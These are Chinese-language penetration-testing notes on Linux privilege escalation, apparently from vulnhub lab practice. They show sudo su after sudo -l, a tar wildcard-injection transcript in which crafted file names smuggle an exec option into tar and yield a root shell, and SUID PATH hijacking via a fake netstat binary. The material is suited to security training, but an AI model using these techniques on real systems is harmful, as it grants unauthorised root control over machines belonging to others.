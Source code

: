 ### su

`sudo -l` 发现 `RickSanchez` 可以以任何身份执行任何命令，于是 `sudo su` 提权

<img src=".\图片\e8e680330d5debbe001d1dd12c81b5d8.png" alt="e8e680330d5debbe001d1dd12c81b5d8" style="zoom: 80%;" />

### /usr/sbin/tcpdump

详情见

```http
.\vulnhub\Web Developer1.md
```

### tar/zip

例子：tar 和 zip 命令能以 sudo 运行时，都能提权的[tar命令提权 - 隐念笎 - 博客园 (cnblogs.com)](https://www.cnblogs.com/zlgxzswjy/p/15210570.html)

```bash
zico@zico:~/wordpress$ cd /tmp
cd /tmp
zico@zico:/tmp$ echo "/bin/bash" > shell.sh
echo "/bin/bash" > shell.sh
zico@zico:/tmp$ echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > "--checkpoint-action=exec=sh shell.sh"
zico@zico:/tmp$ echo "" > --checkpoint=1
echo "" > --checkpoint=1
zico@zico:/tmp$ sudo tar cf archive.tar *
sudo tar cf archive.tar *
root@zico:/tmp# id
id
uid=0(root) gid=0(root) groups=0(root)
```



## suid配合环境变量劫持

例子：

环境变量提权，已知 `/usr/bin/netscan` 具有 `suid` 权限并发现其调用 `netstat` 命令，直接创建 `netstat` 文件写入 /bin/sh，再把当前目录 tmp 设置到环境变量中，在当前 tmp 目录执行 netscan 时会调用 /tmp下的 netstat 文件从而执行 /bin/sh 。哦哦，前提条件是 `/usr/bin/netscan` 文件具有以 root 权限执行的 suid 权限，这个我们首先通过第一步 `find / -type f -perm -u=s 2>/dev/null` 便找到了。详细见：

```http
E:\渗透笔记\靶机\vulnhub\Os-ByteSec.md
```
